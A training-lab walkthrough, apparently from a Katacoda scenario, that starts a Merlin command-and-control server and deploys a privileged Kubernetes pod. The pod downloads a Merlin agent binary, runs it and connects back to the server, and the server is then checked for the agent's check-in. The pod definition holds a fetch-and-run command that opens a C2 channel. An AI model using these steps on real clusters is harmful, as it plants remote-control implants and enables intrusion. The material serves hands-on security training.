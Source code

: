 Here we will see the basic settings of Kubessss.

## Basics of Kubessss

#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./merlinServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/merlinAgent-Linux-x64 && chmod +x merlinAgent-Linux-x64 && ./merlinAgent-Linux-x64 -url https://$HOST_IP:443", "sleep infinity" ]
    securityContext:
      privileged: true
EOF```{{execute T2}}  



Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection details.  

